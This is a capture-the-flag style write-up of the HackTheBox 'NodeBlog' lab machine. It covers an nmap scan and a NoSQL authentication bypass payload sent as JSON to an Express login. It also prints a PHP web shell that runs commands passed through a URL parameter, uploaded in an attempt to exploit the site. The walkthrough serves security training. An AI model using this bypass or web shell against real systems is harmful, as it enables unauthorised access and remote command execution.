 # Box: NodeBlog
# Level: Easy
# OS: Linux
<hr>

Lets get started

# Recon

## PortScanning

command:```sudo nmap -A -v -p- -T4 10.129.96.160```

```
Nmap scan report for 10.129.96.160
Host is up (0.21s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
5000/tcp open  http    Node.js (Express middleware)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Blog
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=10/23%OT=22%CT=1%CU=32229%PV=Y%DS=2%DC=T%G=Y%TM=653635
OS:03%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST
OS:11NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)EC
OS:N(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Uptime guess: 39.434 days (since Wed Sep 13 23:30:20 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   199.89 ms 10.10.14.1
2   200.02 ms 10.129.96.160

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 23 09:55:31 2023 -- 1 IP address (1 host up) scanned in 826.12 seconds
```
From our nmap scan we have 2 open ports, port 22 which runs the ssh service and port 5000 which runs the http service. We'll focus our enumeration today on port 5000



# Enumeration

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6804e207-e945-4c9c-bb41-8d07196cca91)

From our nmap scan we can see that this webpage is running on the nodejs express framework

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/80a4db1f-b87b-43fe-b6c3-e530d43d96ea)

Lets try to login with default creds. we'll capture the request and send it over to burp repeater

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c5728ea7-d4ce-4b33-8039-76486543b90b)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/859495fa-100a-4460-a3ff-4e76a516bc50)

oops, invalid password.

During my research on the express framework I saw that asides the "Content-Type" ```application/x-www-form-urlencoded```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/59a10b9f-7a3f-4de3-85be-b48de20a8c6a)

So we can use the "Content-Type" ```application/json```. If we are using ```json``` this means our request will have a different structure

After editing, your request should look like this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/f1e6e517-e7b5-443c-9436-0c05dcc75638)

nice nice, we were able to successfully change the content-type. One way we know this worked is from the "Invalid Password" error we got.


We can try to bypass this login page by using a ```NoSQL``` payload. So, we'll be performing Authentication Bypass in json format.

payload:```{"username": {"$gt":""}, "password": {"$gt":""}}```

Modifying our request should get us logged in

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/27e8bd3d-739d-43da-8b5f-9580d7cd8d50)

We didn't get the "Invalid Password" error, does this mean we have successfully bypassed the login page?? Well lets confirm this by showing the response in our browser

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/8c142595-5d21-4d22-8c12-6356f3af0690)

nice nice, we are in hehe.

We can see there's an upload button. Well, lets exploit this




# Exploitation

We'll start out by uploading a php script (no time to waste for testing with jpg or png extensions😂)

Lets create a php file

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/nodeblog]
└─$ nano abeg.php 
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/nodeblog]
└─$ cat abeg.php              
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
Lets upload this and see what happens

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/3ad6eb42-9851-4364-ae60-56e310e8c0e9)

oops, we get the "invalid xml example" error. Well, this means the accepted file extension is xml.

Lets see if this is true, we'll create a simple xml file

```xml
<?xml version="1.0" encoding="UTF-8"?>
<person>
  <name>BlackAnon</name>
  <age>26</age>
  <email>blackanon@vawulence.com</email>
</person>
```
Well, that's my age right there hehe.

Save this in a file "info.xml"

After uploading, you should see this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/9f065f0b-1517-4df4-917c-b3210e0f6650)

Well, this means we successfully uploaded the file
































